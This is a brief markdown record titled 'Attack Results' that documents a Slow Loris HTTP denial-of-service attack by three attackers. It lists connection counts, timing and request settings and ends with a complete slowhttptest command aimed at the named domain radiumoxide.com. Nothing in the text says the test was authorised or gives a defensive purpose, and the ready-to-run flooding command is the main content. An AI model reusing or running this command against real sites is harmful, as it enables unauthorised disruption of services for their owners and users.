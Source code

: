 # Attack Results

## Description

- Type: Slow Loris HTTP
- Number of attackers: 3
- Target port: 80
- Number of connections: 1000
- Generated statistics to file: `slowhttp3`
- Number of requests: 200
- Type of requests: HTTP GET
- Wait for data: 10 seconds
- Request length: 24 bytes
- Request timeout: 3 seconds
- Target: radiumoxide.com
- Attack tool: slowhttptest
- Attack Command: `slowhttptest -c 1000 -H -g -o slowhttp3 -i 10 -r 200 -t GET -u https://radiumoxide.com -x 24 -p 3 &`

